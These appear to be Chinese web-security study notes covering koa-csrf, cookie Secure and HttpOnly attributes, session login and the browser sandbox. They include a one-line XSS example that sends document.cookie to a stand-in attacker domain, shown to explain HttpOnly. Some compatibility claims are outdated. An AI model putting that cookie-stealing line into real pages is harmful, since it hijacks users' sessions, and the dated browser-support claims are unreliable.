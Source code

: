 > SameSite 目前只有 Chrome 支持

### koa-csrf

koa-csrf 插件用来防止 CSRF 攻击。原理是在 session 之中写入一个秘密的 token，用户每次使用 POST 方法提交数据的时候，必须含有这个 token，否则就会抛出错误。

POST 请求含有 token，可以是以下几种方式之一，koa-csrf 插件就能获得 token。

- 表单的\_csrf 字段
- 查询字符串的\_csrf 字段
- HTTP 请求头信息的 x-csrf-token 字段
- HTTP 请求头信息的 x-xsrf-token 字段

## 前端 Cookies 问题

- 是一个前端的数据存贮；
- 前后端都可以设置；
- 遵循同源策略；

Secure 属性：指定浏览器只有在加密协议 HTTPS 下，才能将这个 Cookie 发送到服务器。
HttpOnly 属性：指定该 Cookie 无法通过 JavaScript 脚本拿到

### Cookies 登录用户签名：

- 用户 ID，容易被篡改。
- 用户 ID + 签名，避免篡改 cookie
- sessionId。

每次登录生成随机的 sessionId，然后生成一个 session 对象，下面存放 userId 等用户信息。session 数据较多，不能放在内存中。如果放在内存，也会涉及服务器重启丢失的问题。一般将 session 放在缓存中。为了让登陆的用户同步，会将 session 放到外部存储机。

- token

### cookie 和 xss 的关系

cookie 容易被盗；

```js
new Image().src =
  'http://www.evil-domain.com/steal-cookie.php?cookie=' + document.cookie;
```

防止：HttpOnly 设置为 true，但这个属性兼容性不太好。

### cookie 和 csrf 的关系

## 安全沙箱

将渲染进程和操作系统隔离的这道墙就是我们要聊的安全沙箱。
安全沙箱是不能防止 XSS 或者 CSRF 一类的攻击，
安全沙箱的目的是隔离渲染进程和操作系统，让渲染进行没有访问操作系统的权利
XSS 或者 CSRF 主要是利用网络资源获取用户的信息，这和操作系统没有关系的

## 点击劫持
